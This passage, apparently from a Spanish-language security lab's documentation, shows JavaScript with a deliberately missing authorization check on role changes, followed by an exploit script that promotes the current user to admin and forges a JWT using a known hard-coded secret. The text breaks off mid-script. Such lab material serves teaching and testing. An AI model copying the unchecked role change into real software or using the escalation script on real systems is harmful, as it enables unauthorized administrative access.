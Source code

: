 ```javascript
  const userIndex = usersDatabase.findIndex(u => u.id === id);
  
  if (userIndex === -1) {
    throw createHttpError(404, 'Usuario no encontrado');
  }

  // 🚨 NO HAY VALIDACIÓN: Cualquier usuario puede cambiar roles
  const oldRole = usersDatabase[userIndex].role;
  usersDatabase[userIndex].role = role;
  
  console.log(`🚨 VULNERABILITY EXPLOITED: User ${decoded.username} changed user ${id} role from ${oldRole} to ${role}`);
  
  // Si el usuario cambió su propio rol, actualizar el token en localStorage
  if (id === decoded.id) {
    const updatedUser = { ...usersDatabase[userIndex] };
    delete (updatedUser as any).password;
    const newToken = createSimpleJWT(updatedUser);
    localStorage.setItem('token', newToken);
    localStorage.setItem('user', JSON.stringify(updatedUser));
  }
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Auto-promoción a Admin**
```javascript
// MÉTODO PRÁCTICO: Auto-promoción usando acceso directo
const promoteToAdmin = () => {
  if (!window.debugAPI || !window.debugAPI.usersDatabase) {
    console.log("❌ debugAPI no disponible. Métodos alternativos:");
    console.log("   1. Usar formularios de la UI en /admin");
    console.log("   2. Interceptar y modificar requests de red");
    console.log("   3. Buscar endpoints de API expuestos");
    return;
  }
  
  const currentUserData = JSON.parse(localStorage.getItem('user') || '{}');
  console.log(`🚨 Intentando auto-promoción para: ${currentUserData.username} (ID: ${currentUserData.id})`);
  
  const users = window.debugAPI.usersDatabase;
  const userToPromote = users.find(u => u.id === currentUserData.id);
  
  if (userToPromote) {
    const oldRole = userToPromote.role;
    
    // Realizar auto-promoción
    userToPromote.role = 'admin';
    
    console.log(`✅ AUTO-PROMOCIÓN EXITOSA:`);
    console.log(`   Usuario: ${userToPromote.username}`);
    console.log(`   Rol anterior: ${oldRole}`);
    console.log(`   Rol nuevo: ${userToPromote.role}`);
    
    // Actualizar datos en localStorage
    const updatedUserData = { ...currentUserData, role: 'admin' };
    localStorage.setItem('user', JSON.stringify(updatedUserData));
    
    // Crear nuevo token con rol actualizado (usando la secret conocida)
    const secret = window.debugAPI.SYSTEM_CONFIG?.jwt_secret || 'vulnerable-secret-key';
    const newPayload = {
```